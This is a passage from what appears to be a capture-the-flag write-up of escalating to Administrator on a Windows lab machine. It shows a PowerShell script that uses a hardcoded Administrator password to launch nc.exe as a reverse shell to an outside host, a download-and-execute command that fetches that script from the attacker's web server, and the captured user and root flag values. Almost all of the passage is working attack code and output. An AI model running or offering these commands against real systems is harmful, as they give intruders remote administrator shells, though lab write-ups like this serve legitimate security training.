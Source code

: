 #### 5.1. PS script `admin.ps1` (local)
```
$username = '.\Administrator';
$password = 'Welcome1!';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Start-Process nc.exe -NoNewWindow -Credential $credential -ArgumentList ('-nd','10.10.14.35','7777','-e','cmd.exe')
```


#### 5.2. Running the script (remote)
```
C:\Windows\Temp\.H>echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.35:8888/admin.ps1') | powershell -noprofile -
```


#### 5.3. User flag
```
C:\Users\Alfred\Desktop>type user.txt
type user.txt
72290246dfaedb1e3e3ac9d6fb306334
```


#### 5.4. Root flag
```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
a673d1b1fa95c276c5ef2aa13d9dcc7c
```
